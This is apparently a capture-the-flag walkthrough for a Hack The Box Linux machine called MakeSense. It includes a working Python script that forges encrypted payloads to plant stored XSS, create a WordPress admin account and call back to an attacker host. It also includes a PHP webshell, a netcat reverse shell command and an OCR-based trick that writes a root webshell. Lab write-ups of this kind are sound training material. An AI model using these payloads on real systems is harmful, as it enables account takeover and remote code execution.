


# Hack The Box - Enigma Walkthrough

## Machine Information
| Field | Value |
|------|------|
| Name | MakeSense |
| Platform | Hack The Box |
| OS | Linux |
| Difficulty | Medium |
| Release Date | 4th July, 2026 |

## Overview
MakeSense is a Linux machine that starts with a WordPress site where a voice recording feature exposes a hardcoded AES-GCM encryption key in client-side JavaScript, enabling payload forgery to deliver stored XSS against an admin bot reviewer. XSS is chained with CSRF to create a new administrator account, granting access to the theme editor for RCE as www-data. Credentials found in wp-config.php allow SSH access as a local user, and privilege escalation is achieved by abusing a root-running OCR service (Tesseract) that writes attacker-controlled output to arbitrary PHP files.

## Skills / Techniques
- Subdomain Enumeration
- Client-Side Source Code Analysis
- AES-GCM Payload Forgery
- Stored XSS via Encrypted Voice Transcription
- CSRF-based Admin Account Creation
- WordPress Theme Editor RCE
- Reverse Shell
- Database Credential Discovery (wp-config.php)
- SSH Access & Credential Reuse
- SSH Local Port Forwarding
- OCR Engine Abuse (Tesseract)
- Image Crafting for OCR Exploitation
- Arbitrary File Write via Root Service
- Privilege Escalation to Root

## Table of Contents
1. Reconnaissance
2. Subdomain Discovery
3. WordPress Enumeration
4. Voice Recording Feature Analysis
5. AES-GCM Key Extraction & Payload Forgery
6. Stored XSS Delivery & Admin Bot Exploitation
7. CSRF-based Administrator Account Creation
8. WordPress Theme Editor RCE
9. Foothold as www-data
10. Credential Discovery (wp-config.php)
11. Lateral Movement to Walter (SSH)
12. Internal Service Discovery (Port 8001)
13. SSH Local Port Forwarding
14. OCR Service Abuse (Tesseract + PHP File Write)
15. Root Access

## RECON
```
sudo nmap -sV -p- <IPAddress>                       
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-10 11:51 +0200
Nmap scan report for makesense.htb (<IPAddress>)
Host is up (0.087s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp   filtered http
443/tcp  open     ssl/http    Apache httpd 2.4.58 ((Ubuntu))
8001/tcp filtered vcom-tunnel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 221.29 seconds
```
Nice, small attacking surface. Let's dive that webapp.
```
echo '<IPAddress>    makesense.htb' | sudo tee -a /etc/hosts
```
A WordPress website, use wpscan to find common vulns/misconfig.  
```
wpscan --url https://makesense.htb --disable-tls-checks --enumerate p,u --no-update
```
```
--url https://makesense.htb - Specifies the target WordPress site URL to scan
--disable-tls-checks - Disables SSL/TLS certificate verification (allows scanning sites with self-signed or invalid certificates)
--enumerate p,t - Enumerates (lists and identifies) WordPress components:
p = plugins installed on the site
u = users
--no-update - Skips updating the vulnerability database before scanning (uses the existing local database to save time)
```
[+] Upload directory has listing enabled: https://makesense.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

Found one file only at the path: https://makesense.htb/wp-content/uploads/2026/01/voice-message.wav

And some users.
[+] jake
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] walter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


Whisper is a state-of-the-art speech-to-text (automatic speech recognition) model developed by OpenAI. It is widely used to transcribe spoken audio into highly accurate written text. (You can also just slow down the media player speed to 0.5)
```
whisper voice-message.wav --model medium --language English
```
Hey, this is Jake. I'm testing the new feature, and it's exciting. I'm going there.  
Oops. Login.  
Um, Jake?  
Clear.  
L****.  
N****.  
S****.  
F****.  
N****.  
T****.    
T****.  

It seems to be creds:   
Jake:C****L*****N*****S********  

Meanwhile let's search for directories/commonfiles and subdomains:
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u 'https://makesense.htb/FUZZ' -ac
```
```
.git/logs/              [Status: 200, Size: 34914, Words: 5289, Lines: 349, Duration: 276ms]
.gitignore              [Status: 200, Size: 1055, Words: 49, Lines: 90, Duration: 72ms]
cgi-bin/                [Status: 200, Size: 34914, Words: 5289, Lines: 349, Duration: 2199ms]
javascript              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 105ms]
scripts                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 653ms]
wp-admin                [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 539ms]
wp-includes             [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 416ms]
wp-content              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 721ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 1459ms]
:: Progress: [4750/4750] :: Job [1/1] :: 30 req/sec :: Duration: [0:02:59] :: Errors: 0 ::

```
Let's try those creds in the /wp-admin panel. And it works, but Jake has just a contributor role, can't publish shit.
```
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.makesense.htb' -u 'https://makesense.htb/' -ac 

 :: Method           : GET
 :: URL              : https://makesense.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.makesense.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500

fqbSrJhU                [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 149ms]

```
```
echo '<IPAddress>    fqbSrJhU.makesense.htb' | sudo tee -a /etc/hosts
```

Navigating to the Contact Submissions section in the WordPress admin panel, we can see voice recording files submitted by users. To understand how these files are uploaded, we intercept the traffic with Burp Suite while browsing to the subdomain fqbsrjhu.makesense.htb.
In the page source, we find an inline JavaScript block that exposes the AJAX endpoint and a valid nonce:

```
curl -sk https://fqbSrJhU.makesense.htb | grep -A5 webagency_ajax
<script id="whisper-wrapper-js-extra">
var webagency_ajax = {"ajax_url":"https://makesense.htb/wp-admin/admin-ajax.php","nonce":"50fbeb8031","theme_url":"https://makesense.htb/wp-content/themes/webagency","site_url":"https://makesense.htb"};
//# sourceURL=whisper-wrapper-js-extra
</script>
```
Let's search for .js
```
curl -sk https://fqbSrJhU.makesense.htb | grep -i "\.js"
[...]
<script id="whisper-wrapper-js" src="https://makesense.htb/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js?ver=1.0"></script>
<script id="webagency-main-js" src="https://makesense.htb/wp-content/themes/webagency/assets/js/main.js?ver=1.0"></script>
[...]
```
The website's logic seems to be in the main.js file.
Looking into the js we found the following piece of code.

```
async function uploadAudioAndCollapse(audioBuffer, wavBlob) {
        $('#callStatus').text('Uploading audio...');

        const formData = new FormData();
        formData.append('action', 'save_voice_raw');
        formData.append('nonce', webagency_ajax.nonce);
        formData.append('voice_recording', wavBlob, 'voice-message.wav');
```

The code reveals that the voice recording feature communicates with admin-ajax.php (webagency_ajax) using the save_voice_raw action, the nonce and the file. We can now replicate the browser's request directly with curl, bypassing the JavaScript frontend entirely.  
We send a POST request to admin-ajax.php with the save_voice_raw action, attaching the voice recording file found earlier and the nonce extracted from the page source.  
```
curl -sk -X POST https://makesense.htb/wp-admin/admin-ajax.php \                                        
-F "action=save_voice_raw" \
-F "nonce=50fbeb8031" \
-F "voice_recording=@voice-message-2.wav"
{"success":true,"data":{"message":"Audio saved, processing started.","post_id":77}}    
```
The server responds with a success message and a post_id, confirming that the endpoint accepts unauthenticated file uploads. The response also hints at a background processing pipeline - "processing started" - suggesting the audio is analyzed server-side after upload.  

```                                                                 
curl -sk "https://makesense.htb/index.php?rest_route=/wp/v2/media" | jq '.[0] | .source_url, .id'
"https://makesense.htb/wp-content/uploads/2026/07/voice-message-2.wav"
78
```
This request queries the WordPress REST API for the list of uploaded media files.  
The `jq` filter selects the first item in the JSON array (`.[0]`) and prints its `source_url` (the file URL) and `id` (the media ID).  
The output shows that the uploaded file `voice-message-2.wav` is publicly accessible and has media ID `78`.  

From Contact Submissions section in the admin panel, as jake, we can't do much. Just listing the submitted files and waiting for an admin to approve.
There's should be a way to trigger the admin role to submit the file. 

main.js
```
           // Step 4: Encrypt payload
            $('#processingStatus').text('Securing data...');
            const payload = { transcription, summary };
            const encryptedPayload = await window.whisperTranscriber.encryptPayload(payload);
            console.log('[Phase 2] Payload encrypted');

            // Step 5: Send to backend
            $('#processingStatus').text('Saving results...');

            const formData = new FormData();
            formData.append('action', 'save_voice_results');
            formData.append('nonce', webagency_ajax.nonce);
            formData.append('post_id', postId);
            formData.append('encrypted_payload', encryptedPayload);

            const response = await $.ajax({
                url: webagency_ajax.ajax_url,
                type: 'POST',
                data: formData,
                processData: false,
                contentType: false
            }
```
From the main.js file we also find the save_voice_results action, but the payload as to be encrypted. 
In the https://makesense.htb/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js we found the key.
```
// Symmetric encryption key (must match server-side)
const ENCRYPTION_KEY = 'bL*******************************rI';
```
We looked into whisper-wrapper.js because of: 
```
jQuery(document).ready(function ($) {
    // Initialize Whisper.cpp for client-side transcription
    let whisperReady = false;
    let whisperInitPromise = null;
    let modelDownloadProgress = 0;

    // Wait for whisperTranscriber to be available
    async function waitForWhisper() {
        let attempts = 0;
        while (typeof window.whisperTranscriber === 'undefined' && attempts < 50) {
            await new Promise(resolve => setTimeout(resolve, 100));
            attempts++;
        }
        if (typeof window.whisperTranscriber === 'undefined') {
            throw new Error('whisperTranscriber not loaded');
        }
    }
```
at the head of main.js.

The normal workflow is as follows:  
1. The user records a voice message on the subdomain.  
2. The client-side JavaScript transcribes the audio using Whisper, producing the transcription.  
3. The JavaScript encrypts the JSON object `{transcription, summary}` using AES-GCM with a hardcoded key.  
4. The encrypted payload (Base64-encoded) is sent to the `save_voice_results` AJAX endpoint.  
5. The server decrypts the payload, extracts the transcription and summary, and stores them in the corresponding team member post.  
6. When an administrator reviews the submission in the WordPress admin panel, the stored transcription is rendered and displayed.  

Now let's build a simple python script that puts everything together:

```
import json, base64, os, requests, urllib3
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.backends import default_backend

urllib3.disable_warnings()

NONCE = 'currentnonce'
TARGET = 'https://makesense.htb/wp-admin/admin-ajax.php'
LHOST = '<attackerIP>'

r1 = requests.post(TARGET,
    files={
        'action': (None, 'save_voice_raw'),
        'nonce':  (None, NONCE),
        'voice_recording': ('dummy.wav', open('voice-message.wav','rb'), 'audio/wav')
    },
    verify=False)
print('[*] save_voice_raw:', r1.text)
post_id = r1.json()['data']['post_id']
print('[*] post_id:', post_id)

key_password = 'bLs****************************3rI'
digest = hashes.Hash(hashes.SHA256(), backend=default_backend())
digest.update(key_password.encode())
key = digest.finalize()

payload = {
    "transcription": """<script>
fetch('/wp-admin/user-new.php')
.then(r=>r.text())
.then(html=>{
    const nonce = html.match(/name="_wpnonce_create-user" value="([^"]+)"/)[1];
    return fetch('/wp-admin/user-new.php', {
        method:'POST',
        headers:{'Content-Type':'application/x-www-form-urlencoded'},
        body:'action=createuser&_wpnonce_create-user='+nonce+'&user_login=hacker&email=hacker@hacker.com&pass1=Hacker123!&pass2=Hacker123!&role=administrator&pw_weak=true'
    });
})
.then(r=>fetch('http://""" + LHOST + """:8000/?done='+r.status));
</script>""",
    "summary": "test"
}

data = json.dumps(payload).encode()
iv = os.urandom(12)
encrypted = AESGCM(key).encrypt(iv, data, None)
encrypted_payload = base64.b64encode(iv + encrypted).decode()

r2 = requests.post(TARGET,
    data={
        'action': 'save_voice_results',
        'nonce': NONCE,
        'post_id': post_id,
        'encrypted_payload': encrypted_payload
    },
    verify=False)
print('[*] save_voice_results:', r2.text)

```

Why our attack works:

The AES-GCM key is hardcoded in the public JavaScript served by the subdomain, meaning anyone can obtain it. This allows us to:

1. Create our own JSON object containing an XSS payload instead of a legitimate transcription.
2. Encrypt it using the same AES-GCM key.
3. Send the encrypted payload to the `save_voice_results` endpoint.

Since the payload is encrypted with the correct key, the server successfully decrypts it and treats it as a legitimate transcription, storing the embedded `<script>...</script>` payload without detecting that it was crafted by an attacker.

```
python add_admin.py   
[*] save_voice_raw: {"success":true,"data":{"message":"Audio saved, processing started.","post_id":81}}
[*] post_id: 81
[*] save_voice_results: {"success":true,"data":{"message":"Results saved successfully!","post_id":81}}
```
So we just created an admin user that we can use to access via /wp-admin. Now we obtain a webshell modifing the footer .php with:
```
<?php if(isset($_GET['cmd'])) system($_GET['cmd']); ?>
```
  

```
curl -sk https://makesense.htb/?cmd=id | grep uid
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Noice, now let's obtain RCE.  
Set up a listner:
```
nc -lvnp 4444
```
```
curl -sk -G "https://makesense.htb/" --data-urlencode "cmd=busybox nc 10.10.15.14 4444 -e bash"
```
Stabilize the shell:  
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
We logged in as www-data. Let's search for config files:  
```
www-data@makesense:/var/www/html$ cat wp-config.php
<?php
// SQLite database configuration
define( 'DB_DIR', __DIR__ . '/wp-content/database/' );
define( 'DB_FILE', '.ht.sqlite' );

// Dummy MySQL settings (required but not used with SQLite)
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'w*****' );
define( 'DB_PASSWORD', 'J**********!' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
```
Now password reuse: 
```
su w*****
Password: J**********!
cat /home/w*****/user.txt 
1******************************b
```

Now let's list all listening TCP and UDP sockets.
```
ss -tulnp
Netid                   State                    Recv-Q         Send-Q                 Local Address:Port                                       Peer Address:Port                   Process                   
udp                     UNCONN                   0              0                      127.0.0.54:53                                              0.0.0.0:*                                                
udp                     UNCONN                   0              0                      127.0.0.53%lo:53                                              0.0.0.0:*                                                
udp                     UNCONN                   0              0                      0.0.0.0:68                                              0.0.0.0:*                                                
tcp                     LISTEN                   0              4096                   127.0.0.1:8001                                            0.0.0.0:*                                                
tcp                     LISTEN                   0              4096                   127.0.0.54:53                                              0.0.0.0:*                                                
tcp                     LISTEN                   0              4096                   0.0.0.0:22                                              0.0.0.0:*                                                
tcp                     LISTEN                   0              511                    0.0.0.0:80                                              0.0.0.0:*                                                
tcp                     LISTEN                   0              511                    0.0.0.0:443                                             0.0.0.0:*                                                
tcp                     LISTEN                   0              4096                   127.0.0.53%lo:53                                              0.0.0.0:*                                                
```
Port 8001 seems juicy. The service also runs as root:
```
root        1411  0.0  0.7 228488 30652 ?        S    11:07   0:01 php -S 127.0.0.1:8001 -t /root/ocr4/
```
Next, we establish an SSH local port forward to securely access the internal service listening on port 8001 through the compromised host.  
```
ssh -L 8001:127.0.0.1:8001 w*****@makesense.htb
```
The internal service running on port 8001 is a PHP web application protected by HTTP Basic Authentication that provides an OCR interface powered by Tesseract. Users can draw text on an HTML canvas, which is then submitted as a base64-encoded PNG image, processed by Tesseract to extract the recognized text, and optionally saved to a file with a user-controlled filename.  

  

```
curl -sk http://127.0.0.1:8001/saved/no.php                                                    
NO
```

Seems pretty easy. The application allows saving the OCR output to a file with a fully user-controlled filename, including the extension. Since the service runs as root and saves files to a web-accessible directory, we can specify a .php extension and have the server execute our code directly.  
We intercepted the legitimate requests with burp, so we know how to craft the malicious one.   
Now let's create a .png file with the text of the simpliest webshell ever.
```
cat createfile.py                          
from PIL import Image, ImageDraw, ImageFont
import base64

img = Image.new('RGB', (800, 100), color='white')
draw = ImageDraw.Draw(img)
font = ImageFont.truetype("/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf", 36)
draw.text((10, 25), '<?php system($__GET["cmd"]); ?>', fill='black', font=font)
img.save('payload.png')
```
When crafting the PNG image, we initially used <?php system($_GET["cmd"]); ?> as the payload, however Tesseract misread the single underscore in $_GET as a space, producing invalid PHP. To work around this, we used a double underscore $__GET which Tesseract correctly recognized as a single underscore _ resulting in valid executable PHP code.
We just have to craft the requests:  
```
curl -sk \
-c cookies.txt \
-u w*****:<redacted> \
-X POST http://localhost:8001 \
--data-urlencode "canvas_image=data:image/png;base64,$(base64 -w0 payload.png) | grep ocr"
               <input type="hidden" name="ocr_id" value="ocr_6a5278617ea0c4.38823827">
```
The flow is split into two steps: the first request submits the image to Tesseract for recognition and returns an ocr_id that identifies the result within the session, while the second request uses that ocr_id to save the recognized text to a file with a user-controlled filename.  

```
curl -sk \
-b cookies.txt \
-u walter:miapassword \
-X POST http://localhost:8001 \
-d "ocr_id=ocr_6a5278617ea0c4.38823827&filename=shell.php&save_output=shell.php"
```
Check if the webshell is working:  
```
curl -sk http://127.0.0.1:8001/saved/shell.php?cmd=id
uid=0(root) gid=0(root) groups=0(root)

```

Next, grab the root flag:
```
curl -sk http://127.0.0.1:8001/saved/shell.php?cmd=cat%20/root/root.txt
2********************************2

```

Cya
